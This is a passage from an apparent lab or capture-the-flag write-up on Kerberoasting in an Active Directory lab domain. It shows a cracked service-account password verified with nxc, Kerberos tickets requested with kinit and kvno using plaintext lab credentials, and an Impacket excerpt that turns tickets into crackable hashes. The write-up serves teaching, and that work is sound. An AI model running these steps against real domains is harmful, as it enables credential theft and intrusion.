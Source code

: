 We get a hit on one of the service tickets, after trying the password for both `svc_vdi` and `svc_sql`, we find that the cracked password `tr4v15` belongs to the `svc_vdi` account.

```
~$ nxc ldap dc01.antennae.rv -u 'svc_vdi' -p 'tr4v15'                                            
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\svc_vdi:tr4v15
```

### Roasting (The Hard Way)

We can explicitly request a service ticket for `TERMSRV/vdi.antennae.rv` using `kinit` and `kvno`, which are part of the [Kerberos](https://web.mit.edu/kerberos/) suite of tools. Firstly, we need to grab a `Ticket Granting Ticket (TGT)` for `chloe.lim` using `kinit`:

```
~$ echo 'BZCJsopuOPgH' | kinit 'chloe.lim'@ANTENNAE.RV
Password for chloe.lim@ANTENNAE.RV: 

~$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: chloe.lim@ANTENNAE.RV

Valid starting       Expires              Service principal
09/07/2025 08:45:27  09/07/2025 18:45:27  krbtgt/ANTENNAE.RV@ANTENNAE.RV
        renew until 09/08/2025 08:45:27
```

We can then use `kvno` to request a service ticket for `TERMSRV/vdi.antennae.rv`, which will be added to our existing ticket cache:

```
~$ kvno TERMSRV/vdi.antennae.rv
TERMSRV/vdi.antennae.rv@ANTENNAE.RV: kvno = 2

~$ klist                       
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: chloe.lim@ANTENNAE.RV

Valid starting       Expires              Service principal
09/07/2025 08:45:27  09/07/2025 18:45:27  krbtgt/ANTENNAE.RV@ANTENNAE.RV
        renew until 09/08/2025 08:45:27
09/07/2025 08:46:21  09/07/2025 18:45:27  TERMSRV/vdi.antennae.rv@ANTENNAE.RV
        renew until 09/08/2025 08:45:27
```

In order to extract the service ticket from our ticket cache, we can use `describeTicket.py` from the [Impacket](https://github.com/fortra/impacket) toolkit which exposes the `kerberoast_from_ccache` functionality:

```python
# https://github.com/fortra/impacket/blob/master/examples/describeTicket.py#L684
def kerberoast_from_ccache(decodedTGS, spn, username, domain):
    ...
    if decodedTGS['ticket']['enc-part']['etype'] == constants.EncryptionTypes.rc4_hmac.value:
    entry = '$krb5tgs$%d$*%s$%s$%s*$%s$%s' % (
        constants.EncryptionTypes.rc4_hmac.value, username, domain, spn.replace(':', '~'),
        hexlify(decodedTGS['ticket']['enc-part']['cipher'][:16].asOctets()).decode(),
        hexlify(decodedTGS['ticket']['enc-part']['cipher'][16:].asOctets()).decode())
```
